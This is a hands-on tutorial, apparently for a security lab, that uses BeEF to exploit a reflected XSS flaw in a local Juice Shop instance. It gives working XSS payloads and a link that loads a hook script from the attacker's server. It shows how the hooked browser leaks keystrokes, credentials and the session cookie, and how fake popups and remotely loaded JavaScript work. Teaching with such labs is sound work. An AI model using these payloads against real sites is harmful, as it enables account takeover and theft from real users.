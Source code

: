 # BeEF Tutorial

This tutorial assumes you followed the [installation instructions](README.md)
and that the BeEF application is up and running, and can be reached at
[http://beef.local:3000](http://beef.local:3000), and that Juice Shop is up and
running, and can be reached at
[http://vulnerable.local:3500](http://vulnerable.local:3500).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto BeEF's administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view

For the victim's point of view, open a _new browser window_. Let's now surf to a
vulnerable site which contains a Cross-Site Scripting vulnerability. Go to
[http://vulnerable.local:3500](http://vulnerable.local:3500) and click on the
search icon in the top right. This will open up a search box. Search for
"banana". This will return all results having "banana" in their description.

Now, an attacker discovered that the site contains a Cross-Site Scripting
vulnerability. Search for the term

```javascript
<img src=a onerror=alert(1)>
```

[<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>](<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>).

This will execute a reflected Cross-Site Scripting payload - an alert box will
pop up, showing a 1.

What's the damage, you'd think? Just an alert box, right? Well, this tutorial
will show you how you much damage you can do with 'just' a Cross-Site Scripting
exploit...

Say that the attacker crafted a link pointing to the vulnerable site, which
would execute a bit more realistic payload. It is up to the attacker to entice
victims to click on that link, for example by social engineering, using link
shorteners and messaging the link.

Click on the following link, prepared by the attacker:
[http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](<http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple>)

Nothing weird happens, right? You don't see results, but that's all. Say now
that the victim wants to log on to the site, and clicks on the account link top
right. Fill in the account details of an existing account: `admin@juice-sh.op` /
`admin123`.

The victim is logged in, and everything looks okay.

However, the payload contained a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
the moment the victim clicked on the link, the attacker controlled all of the
web content in the [http://vulnerable.local:3000](http://vulnerable.local:3000)
tab. Click in the left hand on the hooked browser in the `vulnerable.local`
domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim is doing during this
session. **All entered text as well as mouse and keyboard commands are
intercepted**. If you look carefully you can read the username, and password
that the user entered.

**The attacker successfully stole the username and password**

### Grabbing the session cookie

Select the _Commands_ tab. This is where the majority of actions will be
performed. In the Module Tree, search for _cookie_. Select _Get Cookie_. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side. This is the session cookie of the
logged in user: all that the attacker needs to take over the victim's session.

**The attacker successfully stole the session cookie**

### Fingerprint the victim

Let's fingerprint the browser, so the victim can be followed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the second entry,
`https://ip.nf/me.json` API. you now click on _Execute_, the attacker will find
out where the victim, visiting
[http://vulnerable.local:3500](http://vulnerable.local:3500), will be located.

**The attacker successfully fingerprinted and located the victim**

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Flash Update_
module. This will send a convincingly looking update notification. As soon as
the victim clicks **anywhere**, a file will be downloaded. The payload itself
can be modified in the web interface.

For another example, search for _Notification_ and select the _Fake Notification
Bar (Chrome)_ module. This will send a notification to the victim. If the victim
clicks on the notification, it will download a binary file. Note that this step
will fail (the binary file isn't present on our Attacker server), but this will
demonstrate how easy it is to trick victims.

### Fun and games

**Note:** For best results for the next demos, let the victim first click on the
**OWASP Juice Shop** logo in the top left, so that all search results are
visible. The more visual elements, the better...

Just for fun, play a sound on the victim's computer. Search for _sound_ and
execute the _Play Sound_ module.

Is the sound on? Then we can do better... Search for _raw_ and select the _Raw
JavaScript_ module. Paste the following code in the JavaScript Code window:

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://extract.pw/shake.js';
document.body.appendChild(b);
```

Click on _Execute_.

**The attacker successfully executed arbitrary JavaScript**

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.

